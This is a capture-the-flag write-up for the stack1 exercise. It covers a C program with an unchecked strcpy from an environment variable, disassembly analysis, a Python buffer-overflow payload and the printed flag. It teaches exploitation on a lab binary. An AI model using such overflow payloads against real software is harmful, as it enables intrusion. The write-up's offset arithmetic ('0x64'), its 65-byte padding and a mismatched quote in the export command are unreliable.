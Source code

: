 ```yaml
---
title:  "Writeup: stack1"
date:   2019-03-26 09:00:00
categories: writeup 
layout: post
---
```

# stack1
###### Writeup by Tim Winters

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;
  FILE *fp;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;
  strcpy(buffer, variable);
  fp  = fopen("./flag.txt", "r");

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
      fgets(buffer, 64, (FILE*)fp);
      printf("flag: %s\n", buffer );
      exit(0);
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```
stack1 one is very similar to stack0. We have a variable `modified` that is set to 0, but is checked against a non-zero value. 

Examining the code we see a call to `strcpy` thaat writes the value of environment variable `GREENIE` into `buffer`. We will use this unchecked call to exploit the code.

Let's start by determining the addresses of our variables.

```asm
...
   0x080485c1 <+70>:	push   DWORD PTR [ebp-0xc]
   0x080485c4 <+73>:	lea    eax,[ebp-0x54]
   0x080485c7 <+76>:	push   eax
   0x080485c8 <+77>:	call   0x8048400 <strcpy@plt>
...   
```
Here we have the instructions that set up the stack for the call to `strcpy`. x86 conventions say that the arguments are put on the stack in reverse order. Therefore, `ebp-0x54` is the address of `buffer`. 

Later on we see 

```asm
0x080485e8 <+109>:	mov    eax,DWORD PTR [ebp-0x14]
0x080485eb <+112>:	cmp    eax,0xd0a0d0a
```
This comparison matches up with the comparison of `modified` in the source code. `ebp-0x14` is the address of our modified variable. 

`0x54 - 0x14` = `0x64`. We need 64 bytes of data before we start overwriting our variable. 

To properly write the value of `0xd0a0d0a` it is not enough to simple have our input be `"...aad0a0d0a"`. This will not write the raw bytes, but rather the ascii bytes of the characters. Instead, we can use python to create these literals. 

```
> python -c "import struct; print 'a'*64 + struct.pack('I', 0xd0a0d0a)"
```

It is not enough to simply pass this into `stdin`. Looking at the source code, it pulls our overflowing text from the `GREENIE` environment variable. To set it 

``export GREENIE=`python -c "import struct; print 'a'*65 + struct.pack('I", 0xd0a0d0a)"` ``

Then run the executable normally

```
> ./stack1
you have correctly modified the variable
flag: adec00ee873ae277be6a5548188d80d6
```